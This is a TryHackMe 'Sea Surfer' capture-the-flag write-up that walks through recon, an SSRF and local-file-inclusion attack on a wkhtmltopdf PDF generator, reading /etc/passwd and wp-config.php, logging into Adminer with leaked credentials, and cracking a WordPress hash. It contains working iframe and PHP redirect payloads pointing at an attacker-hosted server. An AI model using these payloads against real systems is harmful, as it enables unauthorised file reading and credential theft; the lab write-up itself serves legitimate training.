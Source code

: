 # TryHackMe: Sea Surfer Writeup

## Recon

We start out with a basic recon nmap scan. This reveals that there's an http and ssh service. Trying an anonymous logon to ssh doesn't work.

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -A -sV -sC -T4 -p- -oN tcp.nmap 10.10.10.210
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-29 00:57 EST
Nmap scan report for 10.10.10.210
Host is up (0.15s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 87:e3:d4:32:cd:51:d2:96:70:ef:5f:48:22:50:ab:67 (RSA)
|   256 27:d1:37:b0:c5:3c:b5:81:6a:7c:36:8a:2b:63:9a:b9 (ECDSA)
|_  256 7f:13:1b:cf:e6:45:51:b9:09:43:9a:23:2f:50:3c:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=1/29%OT=22%CT=1%CU=40178%PV=Y%DS=2%DC=T%G=Y%TM=63D60C4
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   151.73 ms 10.18.0.1
2   151.90 ms 10.10.10.210

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 394.93 seconds
```


Checking the website, there's only a default template page. But looking at the headers reveals a domain.

![](images/1.PNG)

```
┌──(kali㉿kali)-[~]
└─$ curl -v 10.10.56.149       
*   Trying 10.10.56.149:80...
* Connected to 10.10.56.149 (10.10.56.149) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.56.149
> User-Agent: curl/7.84.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 30 Jan 2023 00:41:11 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Last-Modified: Sun, 17 Apr 2022 18:54:09 GMT
< ETag: "2aa6-5dcde2b3f2ff9"
< Accept-Ranges: bytes
< Content-Length: 10918
< Vary: Accept-Encoding
< X-Backend-Server: seasurfer.thm
< Content-Type: text/html
< 
[...]
```

We add this domain to our hosts file with `echo "10.18.72.160   seasurfer.thm" >> /etc/hosts`.

![](images/2.PNG)

We click around the website. Check all the posts and info. It says it was made by "kyle", we'll keep that info for later. The comments also reveal a subdomain, which we also add to our hosts file with `echo "10.18.72.160   internal.seasurfer.thm" >> /etc/hosts`.

![](images/3.PNG)

## SSRF and LFI

The "internal" subdomain appears to generate PDFs based on the form. 

![](images/4.PNG)

We can try to inject <h1>asdf</h1> in a field to see if it will display in the outputted PDF file. It does. We can potentially attack this with SSRF or local file inclusion. Trying `<iframe height="2000" width="800" src="file:///etc/passwd"></iframe>` doesn't work though.

![](images/5.PNG)

Looking at the properties of the pdf file (on chrome: three dots top right corner > document properties), we see that the website uses wkhtmltopdf to generate the pdfs from this form.

```
Document properties
File name:      29012023-9OZtn8ojlr6zLl4zY3mI.pdf
File size:	    52.9 KB
Title:          Receipt
Author:	        -
Subject:	      -
Keywords:	      -
Created:	      1/29/23, 3:35:48 PM
Modified:	      -
Application:   	wkhtmltopdf 0.12.5
PDF producer: 	Qt 4.8.7
PDF version:  	1.4
Page count: 	  1
Page size:  	  8.26 × 11.69 in (portrait)
Fast web view:	No
```

A quick search reveals that this program is vulnerable to local file inclusion and SSRF. We can try to get the server to read us some data.

On kali, we host a file by running `service apache2 start`. Then we create a payload in /var/www/html/ named payload.php.
```php
<?php
     header('location:file:///etc/passwd');
?>
```

We put this into one of the fields in the form and submit it.
```html
<iframe height="2000" width="800" src=http://KALI_IP/payload.php></iframe>
<iframe height="2000" width="800" src="http://KALI_IP/payload.php"></iframe>
```

Success. We can read /etc/passwd.

![](images/6.PNG)

We edit the payload to see what user is running.

```php
<?php
     header('location:file:///proc/self/status');
?>
```

Uid 33 33 = www-data from the /etc/passwd we got earlier.

![](images/7.PNG)

Tried to see if we can access logs for Log Poisoning. Fruitless, just gives a blank iframe.
```
/var/log/auth.log
/var/log/apache2/access.log
/var/log/vsftpd.log
/var/log/apache2/error.log
```

Tried to read wp-config.php. We know that the website is being run out of /var/www, so the file is somewhere in the directory/subdirectory. The last one worked.
```
/var/www/wp-config.php
/var/www/html/wp-config.php
/var/www/seasurfer/wp-config.php
/var/www/wordpress/wp-config.php
```

wp-config.php gives us database credentials.
```
[...]
define( 'DB_NAME', 'wordpress' );
/** Database username */
define( 'DB_USER', 'wordpressuser' );
/** Database password */
define( 'DB_PASSWORD', 'coolDataTablesMan' );
/** Database hostname */
define( 'DB_HOST', 'localhost' );
/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );
/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
[...]
```

![](images/8.PNG)

## Enumeration and Credentials

Enumerating seasurfer.thm with `gobuster dir -u seasurfer.thm -w /usr/share/seclists/Discovery/Web-Content/big.txt` reveals the usual wp login pages, as well as /adminer, which appears to be the database for these credentials.

![](images/4.1.PNG)

We log in to the database.

![](images/9.PNG)

We can see the users table.

![](images/10.PNG)

Lets grab the hash from kyle and crack it with `hashcat -O -m 400 -a 0 -o cracked.txt hashes.txt /usr/share/wordlists/rockyou.txt`.

cracked.txt
```
$P$BuCryp52DAdCRIcLrT9vrFNb0vPcyi/:jenny4ever
```

Note that can also just change kyle's password. WP uses a Portable PHP hash. This website does it for us: http://scriptserver.mainframe8.com/wordpress_password_hasher.php

![](images/11.PNG)

We can change the hash in the database to "password", or `$P$BIaoue8/jCS/3qVUc3JVPSvXzvmdt.1`. Not necessary since we already cracked it.
